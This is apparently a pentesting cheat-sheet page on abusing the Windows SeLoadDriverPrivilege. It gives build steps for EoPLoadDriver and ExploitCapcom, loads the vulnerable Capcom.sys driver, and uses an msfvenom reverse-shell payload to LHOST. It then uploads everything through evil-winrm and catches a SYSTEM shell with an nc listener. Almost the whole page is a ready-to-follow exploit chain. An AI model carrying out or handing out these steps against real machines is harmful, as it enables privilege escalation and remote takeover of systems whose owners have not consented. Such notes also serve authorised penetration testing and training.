 ```yaml
---
title: "SeLoadDriverPrivilege"
date: 2024-7-18
tags: ["SeLoadDriverPrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


### Abuse #1: Install malicious driver

#### 1. Compile eoploaddriver

```console
+---------------------------------------------------------------------------------------+
| 1. Open Visual Studio 2022                                                            |
| 2. Create a new project                                                               |
| 3. Project Template : C++ Console App                                                 |
| 4. Project Name     : Eoploaddriver                                                   |
| 5. Replace code     : eoploaddriver.cpp                                               |
| 6. Remove header    : `include "stdafx.h"`                                            |
| 7. Release -> x64                                                                     |
| 8. Build   -> Build Solution                                                          |
| 9. Exported to C:\Users\user\source\repos\Eoploaddriver\x64\Release\Eoploaddriver.exe |
+---------------------------------------------------------------------------------------+
```

<small>*Ref: [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)*</small>

#### 2. Download Capcom.sys

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

#### 3. Compile ExploitCapcom

```console
+----------------------------------------------------------------------------------------+
| 1. Double click ExploitCapcom.sln                                                      |
| 2. Replace the payload to `TCHAR CommandLine[] = TEXT("C:\\Windows\\Tasks\\rev.exe");` |
| 3. Release -> x64                                                                      |
| 4. Build   -> Build Solution                                                           |
| 5. Exported to .\x64\Release\ExploitCapcom.exe                                         |
+----------------------------------------------------------------------------------------+
```

<small>*Ref: [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)*</small>

#### 3. Create stageless payload

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o rev.exe
```

#### 4. Upload

```console
# For example (evil-winrm)
upload Eoploaddriver.exe C:\ProgramData\Eoploaddriver.exe
```

```console
upload Capcom.sys C:\ProgramData\Capcom.sys
```

```console
upload ExploitCapcom.exe C:\ProgramData\ExploitCapcom.exe
```

```console
upload rev.exe C:\ProgramData\rev.exe
```

#### 5. Exploit

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console
C:\ProgramData\Eoploaddriver.exe System\CurrentControlSet\test C:\ProgramData\Capcom.sys
```

```console
C:\ProgramData\ExploitCapcom.exe
```
